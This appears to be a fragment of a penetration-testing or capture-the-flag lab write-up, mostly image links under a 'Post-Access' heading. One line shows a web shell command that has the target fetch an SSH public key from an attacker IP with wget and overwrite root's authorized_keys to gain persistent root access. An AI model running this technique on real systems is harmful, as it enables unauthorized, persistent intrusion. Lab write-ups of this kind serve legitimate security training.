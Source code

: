 ![](/assets/images/emporium/pe8.png)
## Post-Access


![](/assets/images/emporium/pa1.png)

`http://127.0.0.1:8080/shell.php?cmd=wget+http://192.168.45.205/key.pub+-O+/root/.ssh/authorized_keys`


![](/assets/images/emporium/pa2.png)
